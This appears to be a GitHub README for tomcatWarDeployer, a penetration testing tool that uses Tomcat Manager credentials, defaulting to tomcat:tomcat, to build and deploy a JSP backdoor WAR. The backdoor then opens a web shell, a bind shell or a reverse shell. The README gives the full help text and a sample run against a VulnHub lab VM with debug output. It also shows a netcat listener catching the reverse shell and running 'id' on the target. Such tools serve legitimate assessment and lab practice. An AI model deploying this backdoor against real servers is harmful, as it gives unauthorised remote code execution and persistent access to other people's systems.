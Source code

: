 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server		Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit
  -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
  -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
  -t TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
  -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
  -x, --unload          Unload existing JSP Application with the same name.
                        Default: no.
  -C, --noconnect       Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
  -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.

  General options:
    -v, --verbose       Verbose mode.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"
```

And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :

```
user$ python tomcatWarDeployer.py -C -x -v -H 192.168.56.101 -p 4545 -n shell 192.168.56.100:8080

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.101:4545.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for shell WAR at: "/tmp/tmpzndaGR"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/shell.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 541) (out= 254)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1597)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpzndaGR
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "shell" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/shell/"
DEBUG: Succeeded.
DEBUG: Deploying application: shell from file: "/tmp/shell.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpzndaGR"
DEBUG: Succeeded, invoking it...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/shell/"
DEBUG: Adding 'X-Pass: b8vYQ9EU7suV' header for shell functionality authentication.
WARNING: Set up your incoming shell listener, I'm giving you 3 seconds.
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/shell/
INFO: Happy pwning, here take that password for web shell: 'b8vYQ9EU7suV'
```

Which will result in the following JSP application accessible remotely via WEB:
![JSP backdoor gui](screen1.png)

As one can see, there is password needed for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.

Also, this particular example **performs reverse shell popping** by connecting here to the *192.168.56.101:4545*. 
There one can observe:

```
user $ nc -klvp 4545
listening on [any] 4545 ...
192.168.56.100: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.100] 44423
id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)
```

Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 

### TODO

* ~~Implement bind & reverse tcp payload functionality~~ as well as some pty to interact with it
* Finish implementing noconnect and connect functionality
* Test it on tomcat8


